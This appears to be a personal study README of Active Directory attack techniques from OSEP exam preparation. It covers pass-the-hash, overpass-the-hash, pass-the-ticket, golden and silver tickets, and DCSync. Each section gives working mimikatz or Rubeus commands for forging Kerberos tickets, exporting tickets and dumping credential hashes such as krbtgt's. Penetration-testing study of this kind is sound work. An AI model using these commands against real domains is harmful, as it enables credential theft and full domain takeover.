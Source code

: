 (Although the techniques explained here aren't teached in the OSEP, I found them pretty useful during my OSEP exam & labs, learning and researching
about them also helped me improve my knowlegde of Active Directory which is always useful)

**PASS THE HASH:**

The pass-the-hash techinque allows an attacker to authenticate to remote systems using the user NTLM hash(the static part, also known as NT hash). 
Note that the pass-the-hash technique only applies to Windows/NTLM authentication and not to Kerberos authentication.

There are lots of tools that support pass-the-hash. For example all the impacket suite supports it, xfreerdp also does, mimikatz also does, and the
list keeps going on...

Passing the hash from bare bones *nix systems using [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit/tree/master).

**OVERPASS THE HASH:**

Overpass the hash, presented in the [blackhat](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf). This technique allows an attacker to get a TGT using only the NTLM hash of the user. 

We can for example use overpass the hash through [mimikatz](https://github.com/gentilkiwi/mimikatz):

```
mimikatz # sekurlsa::pth /user:user1 /domain:contoso.com /ntlm:<ntlm_hash> /run:PowerShell.exe
```

Once we have the new powershell session, we can authenticate to any AD resource to obtain a TGT, here's an example:

```
PS C:\> klist  -> no TGT for the user1

PS C:\> net use \\dc01.contoso.com

PS C:\> klist -> TGT for the user1
```

**PASS THE TICKET:**

The pass-the-ticket technique abuses the TGS, which can be exported and injected somewhere else.

```
Listing tickets with mimikatz:

mimikatz # kerberos::list


Exporting all tickets(TGTs and TGSs) with mimikatz:

mimikatz # sekurlsa::tickets /export   


Injecting some ticket into memory with mimikatz:

mimikatz # kerberos::ptt 'C:\ticket.kirbi'
```

*When trying to export a usable TGT for our current user, this requieres elevation in the system*

However with the "tgtdeleg" Rubeus function we can aviod the elevation and obtain a fully working TGT for our current user:

```
C:\> Rubeus.exe tgtdeleg
```

Although TGTs on Windows are exported as .kirbi, and on Linux as .ccache. We can use the impacket [ticketConverter.py](https://github.com/fortra/impacket/blob/master/examples/ticketConverter.py) to convert a .kirbi to a .ccache, or a .ccache to a .kirbi.

```
From .ccache to .kirbi
~# python ticket_converter.py trike.ccache trike.kirbi

From .kirbi to .ccache
~# python ticket_converter.py velociraptor.kirbi velociraptor.ccache
```

Alternatively you can use this metasploit module [auxiliary/admin/kerberos/ticket_converter](https://docs.metasploit.com/docs/pentesting/active-directory/kerberos/ticket_converter.html).

**GOLDEN TICKETS:**

With golden tickets, we can create TGTs for any domain resource that we want, and stating the groups we want. However to execute this attack we need the "krbtgt" domain account NTLM hash/password. Note that this attack is mostly used when you are already Domain Admin rather than trying to become one.

Now, armed with the "krbtgt" NTLM hash, we can proceed and craft our golden ticket with mimikatz:

```
mimikatz # kerberos::purge

mimikatz # kerberos::golden /user:trike /domain:contoso.com /sid:<our_sid_without_the_rid_part> /krbtgt:<ntlm_hash_of_krbtgt> /ptt
(mimikatz by default will assing us the RID of 500, however we can set a custom one via the "/id" parameter)

mimikatz # misc::cmd -> launcing a new cmd with our new TGT
```

**SILVER TICKETS:**

This technique consists of crafting a TGS with the password hash of the SPN. The interesting part about this TGS, is that we can modify our permissions(such as user id or group id) stating that we are local administrator/domain admin/etc on the server where the SPN we have compromised is running its service. 

In our example, our compromimsed SPN will we "svc_mssql", its NTLM password hash will be this "1BF1DE6AEDB12AE1E548210EDBF3511E", its FQDN will be "MSSQL/server.contoso.com" and the SID of the trike user will be "S-1-5-21-2602875597-2787548311-2599479668-1204"

```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::list

mimikatz # kerberos::golden /user:trike /domain:contoso.com /sid:S-1-5-21-2602875597-2787548311-2599479668 /target:server.contoso.com /service:MSSQL /rc4:1BF1DE6AEDB12AE1E548210EDBF3511E /ptt
```
(note that in the sid parameter we didn't specify the RID of the trike user, since mimikatz will automatically set our RID to 500 which equals to both local administrator and domain admin)

**DOMAIN CONTROLLER SYNCHRONIZATION:**

This is an alternative way to get any domain user hash without dumping the entire NTDS.dit database. For this reason DcSync is way stealthier. 

This attack works because the domain controller recieving the request doesn't verify that the request came from a know domain controller, only that the SID has the appropiate permissions to do so. For this reason, if a domain admin sends a request to a domain controller, this will likely succeed. 

We can perform this attack with mimikatz:

```
mimikatz # lsadump::dcsync /user:Administrator

mimikatz # lsadump::dcsync /user:krbtgt
```
